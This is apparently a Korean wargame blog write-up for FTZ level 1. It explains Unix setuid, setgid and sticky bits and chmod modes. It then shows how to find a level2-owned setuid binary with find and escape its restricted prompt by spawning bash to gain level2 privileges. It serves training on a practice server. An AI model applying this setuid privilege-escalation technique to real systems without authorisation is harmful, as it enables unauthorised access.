 ```yaml
---
layout: post
title: FTZ Level1
categories: [Wargame]
tags: [FTZ]
comments: true
---
```


FTZ에 접속하실 분들은 `telnet ftz.hackerschool.org` 으로 접속하여 하시면 되겠습니다. level1 / level1 으로 접속하여 진행하도록 하겠습니다.

```
[level1@ftz level1]$ ls
hint  public_html  tmp
```

접속을 하여 파일을 확인해 보면 hint라는 파일이 있습니다.

```
[level1@ftz level1]$ cat hint
level2 권한에 setuid가 걸린 파일을 찾는다.
```

`setuid`뿐만 아니라 `setgid`, `sticky bit`라는게 존재합니다. 3가지 모두 알아봅시다.

- **setuid**
  - 해당 프로그램을 실행시킬 경우 프로그램이 작동하는 동안 소유자의 권한을 가지는 권한 입니다.
  - 만약 user1의 파일에 setuid가 걸려있는 상태로 user2가 실행을 하게될 경우, user2가 일시적으로 user1이 될 수 있습니다.

- **setgid**
  - setuid와 비슷하지만 소유자가 아닌 소유그룹이 대상입니다.

- **sticky bit**
  - sticky bit가 설정되었을 경우 수정이나 실행, 읽기의 경우는 허용이 되지만, 삭제의 경우에는 소유자만 할 수 있습니다. 하지만 root의 경우는 예외적으로 삭제를 할 수 있습니다.

해당 권한이 걸려있는 경우를 확인하기 쉬운 방법은 `ls -l`을 이용하여 확인할 수 있습니다.

```
[level1@ftz tmp]$ ls -l test
-rwsrwsrwt    1 level1   level1      11435 Mar  2 00:49 test
```

앞에서부터 s는 setuid가 걸려있는 경우, 가운데 s는 setgid가 걸려있는 경우, 마지막 t는 sticky bit가 걸려있는 경우입니다. test파일은 현재 rwx의 권한을 모두 가지고 있는 상태입니다. 여기서 보아야 할 점은 특수한 권한인 setuid, setgid, sticky bit가 설정된 경우에는 x의 부분에 표시가 된다는 점입니다. 그럼 만약 x가 걸려있는 상태가 아니라면 어떻게 나올까요?

```
[level1@ftz tmp]$ ls -l test
-rwSrwSrwT    1 level1   level1      11435 Mar  2 00:49 test
```

아까와 마찬가지로 x의 부분에 나타나기는 하지만 차이점으로는 x의 권한이 존재한다면 소문자로 출력이 되었지만, 만약 권한이 없는 상태라면 대문자로 차이점을 표현하였습니다.

그럼 이 권한을 어떻게 부여 할까요? 방법은 `chmod`를 이용하여 권한을 부여하게 됩니다. chmod를 사용하면 단순히 rwx뿐만 아니라 setuid, setgid, sticky bit의 권한도 부여가 가능합니다.

```
[level1@ftz tmp]$ ls -l test
----------    1 level1   level1          5 May 17 07:55 test
```

현재 권한이 설정되어 있지 않은 상태입니다. 이 상태에서 chmod명령어를 이용하여 권한을 설정해 보겠습니다.

```
[level1@ftz tmp]$ chmod 1000 test
[level1@ftz tmp]$ ls -l test
---------T    1 level1   level1          5 May 17 07:55 test
```

**1000**을 주었더니 sticky bit가 걸리게 되었습니다. 그럼 다른 권한도 입력해 보겠습니다.

```
[level1@ftz tmp]$ chmod 2000 test
[level1@ftz tmp]$ ls -l test
------S---    1 level1   level1          5 May 17 07:55 test
```

**2000**을 주게되니 setgid가 걸렸습니다. 마지막인 setuid도 해보겠습니다.

```
[level1@ftz tmp]$ chmod 4000 test
[level1@ftz tmp]$ ls -l test
---S------    1 level1   level1          5 May 17 07:55 test
```

**4000**을 이용하여 권한을 부여하였습니다. 이뿐만 아니라 한번에 여러개를 부여할수도 있습니다.

```
[level1@ftz tmp]$ chmod 5000 test
[level1@ftz tmp]$ ls -l test
---S-----T    1 level1   level1          5 May 17 07:55 test
```

5(4 + 1)000을 사용하니 sticky bit와 setuid가 함께 걸리게 되었습니다. 이런식으로 여러 조합을 이용하여 원하는 권한을 설정할 수 있습니다.

이제 본론으로 들어가서 문제를 해결해 보겠습니다. 

find는 `find [path...] [expression]` 이런식으로 사용할 수 있습니다. 

찾고자 하는 파일이 어디에 있는지 모르기 때문에, /폴더부터 검색을 시작하도록 하겠습니다. 
먼저 find명령의 **-perm옵션**을 통하여 setuid가 걸려있는 파일을 검색하도록 하겠습니다.

```
[level1@ftz level1]$ find / -perm -4000
find: /lost+found: Permission denied
... 생략 ...
/sbin/unix_chkpwd
[level1@ftz level1]$
```
 
-perm옵션에 **-4000**으로 주었는데, 이는 `4(setuid)`, `2(setgid)`, `1(sticky bit)`중 setuid를 검색하는 옵션입니다.

여기서 +6000으로 주는 방법도 있는데, -와 +의 차이점은 and와 or의 차이점이라 보시면 될 것 같습니다.

-6000을 하게 되면 4 and 2라 생각하시면 될 것 같고, +6000을 하게 되면 4 or 2라 생각하시면 됩니다. 4와 2의 권한중 한개만 걸려있어도 권한을 상승시켜 사용할 수 있기 때문에 이중 한개만 걸려있어도 검색하는 +6000을 사용하는 경우가 많습니다.

이렇게 결과가 나오긴 했는데 매우 많이 나오게 됩니다. 이 내용중 permission denied가 나오는데 이는 접근할 수 없는 공간을 검색을 위하여 접근하려 하니 권한이 없다고 출력을 해주는 부분 입니다. 이렇게 에러가 많이 나오는데 이 에러를 제거하기 위해서 옵션을 넣어 줍니다.

```
[level1@ftz level1]$ find / -perm -4000 2>/dev/null
/usr/bin/chage
... 생략 ...
/sbin/unix_chkpwd
[level1@ftz level1]$
```

`2>/dev/null`이라는 옵션은 2(표준에러)를 >(리다이렉션) 해주는데, /dev/null(휴지통과 같은 공간)으로 보내겠다. 라는 의미로 생각하시면 될 것 같습니다. 권한이 없다는 출력은 표준에러를 통해서 출력해 주는데, "표준에러를 휴지통으로 보내버리겠다."는 옵션을 주어 많은 결과물을 줄이게 되었습니다. 하지만 아직도 많은 파일이 뜨게 되는데, 이중 우리에게 필요한 것은 level2의 파일이므로, 옵션을 한개 더 주도록 하겠습니다.

```
[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ 
```

옵션으로 -user옵션이 추가되었는데, 해당 **소유자의 파일**을 검색해 주는 옵션입니다. 이 옵션을 통해 level2의 소유 파일을 검색하여 정확이 원하는 파일을 검색할 수 있게 되었습니다. 이 파일을 실행시켜 보도록 하겠습니다.

```
레벨2의 권한으로 당신이 원하는 명령어를
한가지 실행시켜 드리겠습니다.
(단, my-pass 와 chmod는 제외)

어떤 명령을 실행시키겠습니까?


[level2@ftz level2]$
```
 
다음 레벨의 패스워드를 알 수 있는 my-pass를 실행시킬 수 없고, chmod를 사용하지도 못합니다. 하지만 쉘을 실행시킬수 있으므로 쉘을 실행시켜 해당 파일의 명령을 우회할 수 있습니다.

```
[level2@ftz level2]$ bash

[level2@ftz level2]$ id
uid=3002(level2) gid=3001(level1) groups=3001(level1)
[level2@ftz level2]$ my-pass

Level2 Password is "               "

[level2@ftz level2]$
```